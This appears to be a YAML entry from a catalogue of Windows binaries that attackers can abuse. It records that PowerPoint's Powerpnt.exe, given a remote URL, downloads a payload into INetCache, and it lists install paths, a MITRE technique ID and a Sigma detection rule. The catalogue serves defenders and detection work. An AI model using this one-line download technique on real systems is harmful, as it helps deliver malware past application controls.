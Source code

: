 ```yaml
---
Name: Powerpnt.exe
Description: Microsoft Office binary.
Author: 'Reegun J (OCBC Bank)'
Created: 2019-07-19
Commands:
  - Command: Powerpnt.exe {REMOTEURL}
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in INetCache.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office16\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office15\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office14\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office12\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office12\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office12\Powerpnt.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_office.yml
  - IOC: Suspicious Office application Internet/network traffic
Resources:
  - Link: https://twitter.com/reegun21/status/1150032506504151040
  - Link: https://medium.com/@reegun/unsanitized-file-validation-leads-to-malicious-payload-download-via-office-binaries-202d02db7191
Acknowledgement:
  - Person: Reegun J (OCBC Bank)
    Handle: '@reegun21'
---
```

